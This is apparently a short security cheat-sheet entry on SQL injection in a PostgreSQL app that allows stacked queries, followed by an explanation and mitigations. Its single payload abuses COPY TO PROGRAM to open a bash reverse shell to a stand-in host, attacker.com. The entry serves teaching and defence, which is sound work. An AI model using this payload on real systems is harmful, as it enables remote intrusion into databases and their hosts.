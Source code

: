 ⚠️ Only works when multiple statements are allowed (rare and dangerous)

## 🧪 Scenario: PostgreSQL-based app with stacked query vulnerability

📥 Payload:

```sql
'; COPY users TO PROGRAM 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'; --
```

## 🔍 Explanation: Leverages COPY TO PROGRAM to execute system commands (PostgreSQL feature).

🎯 Impact: Remote shell access as DB user (potential root if misconfigured).

## 🛡️ Mitigation:

- Disable COPY TO PROGRAM in PostgreSQL configuration

- Block stacked queries entirely

- Enforce least privilege on DB users

